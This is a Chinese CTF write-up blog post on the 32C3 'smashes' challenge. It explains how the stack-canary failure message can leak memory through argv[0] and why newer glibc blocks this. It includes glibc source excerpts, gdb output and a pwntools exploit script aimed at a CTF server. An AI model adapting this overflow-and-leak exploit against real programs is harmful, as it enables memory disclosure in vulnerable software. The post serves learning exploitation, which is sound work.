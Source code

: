 ```yaml
---
layout: post
title: "Stack Smashing Protector (SSP):__fortify_fail ->__fortify_fail_abort "
date: 2018-09-3
excerpt: "__stack_chk_fail的前世今生之我为什么复现不了ctfwiki上的smashes"
tags: [pwn, ctfwiki,SSP,stack,CTF]
feature: https://i.ytimg.com/vi/uSC3guWOvpk/maxresdefault.jpg
comments: true
---
```


# Stack Smashing Protector (SSP):__fortify_fail ->__fortify_fail_abort 

ctfwiki上的一道例题32C3 CTF smashes
https://ctf-wiki.github.io/ctf-wiki/pwn/stackoverflow/others/#stack-smash

这个姿势很有意思，通过canary保护的报错来leak出我们想要的信息。

它报错时会调用以下函数：
```
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}



void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```
直接会输出错误信息。

具体的原理和操作可以看ctfwiki或者直接搜32C3 CTF smashes的WP

然而我复现的时候发现在自己的虚拟机上只会输出
![Alt text](http://thyrsi.com/t6/366/1536070637x-1566657657.png)


查了资料发现和libc有关（？）

用的libc-2.27.so
![Alt text](http://thyrsi.com/t6/366/1536070669x-1566657657.png)

原因是我的__stack_chk_fail是这样的：
```
gdb-peda$ disassemble  __stack_chk_fail
Dump of assembler code for function __stack_chk_fail:
   0x00007ffff7eec450 <+0>:	lea    rsi,[rip+0x78be8]        # 0x7ffff7f6503f
   0x00007ffff7eec457 <+7>:	sub    rsp,0x8
   0x00007ffff7eec45b <+11>:	xor    edi,edi
   0x00007ffff7eec45d <+13>:	call   0x7ffff7eec470 <__GI___fortify_fail_abort>
```
它没有使用__fortify_fail，而是使用了fortify_fail_abort来防止argv [0]的泄露。



fortify_fail_abort是这样的
```
__fortify_fail_abort (_Bool need_backtrace, const char *msg)
{
  /* The loop is added only to keep gcc happy.  Don't pass down
     __libc_argv[0] if we aren't doing backtrace since __libc_argv[0]
     may point to the corrupted stack.  */
  while (1)
    __libc_message (need_backtrace ? (do_abort | do_backtrace) : do_abort,
                    "*** %s ***: %s terminated\n",
                    msg,
                    (need_backtrace && __libc_argv[0] != NULL
                     ? __libc_argv[0] : "<unknown>"));
}
//https://code.woboq.org/userspace/glibc/debug/fortify_fail.c.html#40
```
可见，wihile循环里，``__libc_message ``的第一个参数从``2``变成了
``need_backtrace ? (do_abort | do_backtrace) : do_abort``

其中``do_abort``和``do_backtrace``分别是1和2，定义如下
```
enum __libc_message_action
{
  do_message        = 0,                /* Print message.  */
  do_abort        = 1 << 0,        /* Abort.  */ 
  do_backtrace        = 1 << 1        /* Backtrace.  */
};
```

就是取消了默认回溯->报错信息显示argv [0]这样子。




想用centos做，反正我centos的libc比较……古老

![Alt text](http://thyrsi.com/t6/366/1536070693x-1566657657.png)

确实也能够leak出程序名（？）

![Alt text](http://thyrsi.com/t6/366/1536070722x-1566657657.png)

但是centos没有pwntools也懒得装

直接怼远程试试好了

先找buf到argv[0]的偏移，直接r然后输入个ABC然后第二次输入那里ctrl+C终端看此时的栈。

![Alt text](http://thyrsi.com/t6/366/1536070741x-1566657657.png)

```
buf：0x7fffffffdf60
argv[0]:0x7fffffffe0a8 --> 0x7fffffffe178 --> 0x7fffffffe463 ("/root/Desktop/wiki/smashes")

hex(0x7fffffffe178 - 0x7fffffffdf60) = 0x218L
```

和ctf上描述的相符

然后find CTF 找到flag_addr

得到exp如下：

```
from pwn import *

context.log_level = 'debug'

io  = remote('pwn.jarvisoj.com', 9877)

flag_addr = 0x400d21


pattern = 'A'*0x218

payload = pattern + p64(flag_addr)


io.sendlineafter('name?',payload)

io.sendlineafter('flag:','')
io.interactive()
```

没成。

然后这里还有一个坑

……啊这里是64位的程序要用p64而不是p32，做32x做傻了。

还有一个就是

![Alt text](http://thyrsi.com/t6/366/1536070765x-1566657657.png)


然而用的应该是``0x400d20``不然会少一个字母（。）

所以改下这两个地方就可以了。

以为会遇到

设置环境变量``LIBC_FATAL_STDERR_=1``才能实现将标准错误信息通过管道输出到远程shell中

的坑然而并没有。
这个坑这里有说：
https://blog.csdn.net/happyorange2014/article/details/50459201

以上




参考：

1.https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/4.12_stack_chk_fail.html

2.https://qiita.com/sei0o/items/55db337b0829367a2052

3.http://site.pi3.com.pl/papers/ASSP.pdf


看第三个链接可以i意思意思继续深入了解一下SSP，里面介绍了不少和SSP相关的一些攻击。














